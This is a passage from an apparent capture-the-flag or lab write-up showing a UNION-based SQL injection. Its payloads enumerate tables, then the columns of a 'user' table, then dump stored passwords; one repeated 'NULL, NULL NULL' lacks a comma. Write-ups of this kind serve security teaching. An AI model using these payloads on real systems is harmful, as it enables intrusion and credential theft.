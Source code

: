 Payload:

    ' UNION SELECT NULL, NULL NULL, table_name FROM information_schema.tables WHERE table_schema='main'#

<div align="center">
  <img src="https://github.com/user-attachments/assets/dcf8f002-6373-40ad-8171-843fb20cf075">
</div>
<div align="center">
tables in main database
</div>
</br>

The above results shows that the database has 2 tables. First is blogblog_comment and the second one is user. Of course user is the one more interesting. Next, I tried to see columns name in this table.

<div align="center">
  <img src="https://github.com/user-attachments/assets/a319a66d-4213-4bcb-8840-42ae93820e1f">
</div>
<div align="center">
SQL Payload to see columns name
</div>
</br>

Payload:

    ' UNION SELECT NULL, NULL NULL, column_name FROM information_schema.columns WHERE table_name='user'#

<div align="center">
  <img src="https://github.com/user-attachments/assets/1423ab20-345c-44ab-a619-0cbf16cec481">
</div>
<div align="center">
Result
</div>
</br>

The columns returned were **id**, **email**, **password**, **name**. Next, because in the internal administration web asked us to provide username and password, I only retrieve both of them without email and ID.

Payload for password:

    ' UNION SELECT NULL, NULL NULL, password FROM user#

<div align="center">
  <img src="https://github.com/user-attachments/assets/46b0fd6e-fde3-482e-9413-f09bd1fa158e">
</div>
<div align="center">
Result
</div>
</br>
